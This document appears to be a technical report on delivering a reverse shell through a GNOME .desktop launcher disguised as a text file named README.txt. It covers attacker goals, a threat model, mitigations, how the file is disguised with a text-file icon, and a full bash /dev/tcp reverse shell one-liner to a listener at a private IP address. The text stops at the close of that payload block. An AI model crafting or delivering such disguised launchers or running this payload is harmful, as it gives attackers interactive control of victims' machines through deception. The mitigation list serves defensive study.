 # Technical Report: Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)  
- The user allows execution of `.desktop` files from their Desktop  
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)  

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked  
- Easily readable and discoverable if inspected manually  

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Harden user awareness through training against disguised file traps  
- Enable AppArmor/SELinux rules that restrict arbitrary shell access  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
